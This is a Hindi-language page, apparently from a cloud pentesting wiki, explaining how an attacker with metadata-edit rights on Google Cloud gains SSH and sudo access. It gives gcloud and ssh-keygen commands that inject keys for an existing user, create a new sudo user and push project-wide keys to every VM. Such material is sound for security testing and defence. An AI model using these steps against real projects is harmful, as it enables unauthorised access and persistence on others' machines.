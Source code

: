 # GCP - कस्टम SSH मेटाडेटा जोड़ें

## GCP - कस्टम SSH मेटाडेटा जोड़ें

{{#include ../../../../banners/hacktricks-training.md}}

### मेटाडेटा को संशोधित करना <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

एक उदाहरण पर मेटाडेटा संशोधन **महत्वपूर्ण सुरक्षा जोखिमों** का कारण बन सकता है यदि एक हमलावर आवश्यक अनुमतियाँ प्राप्त कर लेता है।

#### **कस्टम मेटाडेटा में SSH कुंजियों का समावेश**

GCP पर, **Linux सिस्टम** अक्सर [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) से स्क्रिप्ट निष्पादित करते हैं। इसका एक महत्वपूर्ण घटक [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) है, जिसे **नियमित रूप से** उदाहरण मेटाडेटा एंडपॉइंट की **अधिकार प्राप्त SSH सार्वजनिक कुंजियों** के लिए **अपडेट** की जांच करने के लिए डिज़ाइन किया गया है।

इसलिए, यदि एक हमलावर कस्टम मेटाडेटा को संशोधित कर सकता है, तो वह डेमन को एक नई सार्वजनिक कुंजी खोजने के लिए मजबूर कर सकता है, जिसे संसाधित किया जाएगा और **स्थानीय सिस्टम में एकीकृत किया जाएगा**। कुंजी को एक **मौजूदा उपयोगकर्ता के `~/.ssh/authorized_keys` फ़ाइल** में जोड़ा जाएगा या `sudo` अनुमतियों के साथ एक नए उपयोगकर्ता को संभावित रूप से बनाया जाएगा, कुंजी के प्रारूप के आधार पर। और हमलावर होस्ट को समझौता करने में सक्षम होगा।

#### **मौजूदा विशेषाधिकार प्राप्त उपयोगकर्ता के लिए SSH कुंजी जोड़ें**

1. **उदाहरण पर मौजूदा SSH कुंजियों की जांच करें:**

- मौजूदा SSH कुंजियों को खोजने के लिए उदाहरण और इसके मेटाडेटा का वर्णन करने के लिए कमांड निष्पादित करें। आउटपुट में प्रासंगिक अनुभाग `metadata` के तहत होगा, विशेष रूप से `ssh-keys` कुंजी के तहत।

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```

- SSH कुंजियों के प्रारूप पर ध्यान दें: उपयोगकर्ता नाम कुंजी से पहले आता है, जो एक कोलन द्वारा अलग होता है।

2. **SSH कुंजी मेटाडेटा के लिए एक टेक्स्ट फ़ाइल तैयार करें:**
- उपयोगकर्ता नाम और उनके संबंधित SSH कुंजियों के विवरण को `meta.txt` नामक टेक्स्ट फ़ाइल में सहेजें। यह नए कुंजियों को जोड़ते समय मौजूदा कुंजियों को बनाए रखने के लिए आवश्यक है।
3. **लक्षित उपयोगकर्ता के लिए एक नई SSH कुंजी उत्पन्न करें (`alice` इस उदाहरण में):**

- `ssh-keygen` कमांड का उपयोग करके एक नई SSH कुंजी उत्पन्न करें, यह सुनिश्चित करते हुए कि टिप्पणी फ़ील्ड (`-C`) लक्षित उपयोगकर्ता नाम से मेल खाता है।

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```

- नई सार्वजनिक कुंजी को `meta.txt` में जोड़ें, उदाहरण के मेटाडेटा में पाए गए प्रारूप की नकल करते हुए।

4. **उदाहरण की SSH कुंजी मेटाडेटा को अपडेट करें:**

- `gcloud compute instances add-metadata` कमांड का उपयोग करके उदाहरण पर अपडेट की गई SSH कुंजी मेटाडेटा लागू करें।

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **नई SSH कुंजी का उपयोग करके उदाहरण तक पहुँचें:**

- लक्षित उपयोगकर्ता (`alice` इस उदाहरण में) के संदर्भ में शेल तक पहुँचने के लिए नई कुंजी का उपयोग करके SSH के साथ उदाहरण से कनेक्ट करें।

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **एक नया विशेषाधिकार प्राप्त उपयोगकर्ता बनाएं और SSH कुंजी जोड़ें**

यदि कोई दिलचस्प उपयोगकर्ता नहीं मिलता है, तो एक नया उपयोगकर्ता बनाया जा सकता है जिसे `sudo` अनुमतियाँ दी जाएंगी:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH keys at project level <a href="#sshing-around" id="sshing-around"></a>

क्लाउड वातावरण में कई वर्चुअल मशीनों (VMs) तक SSH पहुंच को बढ़ाने के लिए **परियोजना स्तर पर SSH कुंजी लागू करना** संभव है। यह दृष्टिकोण परियोजना के भीतर किसी भी उदाहरण तक SSH पहुंच की अनुमति देता है जिसने स्पष्ट रूप से परियोजना-व्यापी SSH कुंजी को अवरुद्ध नहीं किया है। यहाँ एक संक्षिप्त मार्गदर्शिका है:

1. **परियोजना स्तर पर SSH कुंजी लागू करें:**

- `gcloud compute project-info add-metadata` कमांड का उपयोग करके `meta.txt` से SSH कुंजी को परियोजना की मेटाडेटा में जोड़ें। यह क्रिया सुनिश्चित करती है कि SSH कुंजी परियोजना में सभी VMs के बीच मान्यता प्राप्त हैं, जब तक कि किसी VM में "ब्लॉक प्रोजेक्ट-व्यापी SSH कुंजी" विकल्प सक्षम नहीं है।

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **परियोजना-व्यापी कुंजी का उपयोग करके उदाहरणों में SSH करें:**
- परियोजना-व्यापी SSH कुंजी के साथ, आप परियोजना के भीतर किसी भी उदाहरण में SSH कर सकते हैं। जो उदाहरण परियोजना-व्यापी कुंजी को अवरुद्ध नहीं करते हैं, वे SSH कुंजी को स्वीकार करेंगे, जिससे पहुंच प्राप्त होगी।
- किसी उदाहरण में SSH करने का एक सीधा तरीका `gcloud compute ssh [INSTANCE]` कमांड का उपयोग करना है। यह कमांड आपके वर्तमान उपयोगकर्ता नाम और परियोजना स्तर पर सेट की गई SSH कुंजी का उपयोग करके पहुंच प्राप्त करने का प्रयास करता है।

## References

- [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{{#include ../../../../banners/hacktricks-training.md}}
